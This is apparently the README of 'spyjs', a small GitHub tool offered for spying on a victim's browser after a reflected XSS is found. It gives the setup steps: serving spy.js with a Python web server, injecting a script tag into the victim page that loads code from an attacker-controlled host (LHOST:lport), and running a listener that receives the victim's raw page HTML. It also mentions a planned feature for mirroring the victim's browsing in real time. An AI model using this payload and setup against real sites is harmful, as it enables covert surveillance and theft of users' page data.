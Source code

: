 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

# when triggered

![Screenshot](/imgs/callbk.png)

![Screenshot](/imgs/recv.png)

# version next
For future version (may be) i would like to add little improvemnt and make it simulate victims web activity in real time mirrored, instade of receiving raw html
went to simulate it.





